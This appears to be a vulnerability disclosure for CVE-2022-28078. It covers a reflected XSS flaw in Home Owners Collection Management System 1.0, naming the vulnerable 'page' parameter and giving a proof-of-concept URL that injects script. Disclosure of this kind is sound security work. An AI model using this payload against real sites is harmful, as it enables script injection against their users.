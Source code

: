 # CVE-2022-28078
Home Owners Collection Management System 1.0 - Reflected XSS

#### Exploit Title: Home Owners Collection Management System 1.0 - Reflected XSS
#### Date: 2022-05-06
#### CVE: CVE-2022-28078
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.sourcecodester.com/
#### Software Link: https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html
#### Version: 1.0
#### Tested on: LAMP, Ubuntu

-----


#### [#] Vulnerability Location:

	`$_GET['page']` in `/hocms/admin/inc/navigation.php:116`

#### [#] Exploitation:

	`http://localhost/hocms/admin/?page=';alert("b4zb0z");'`
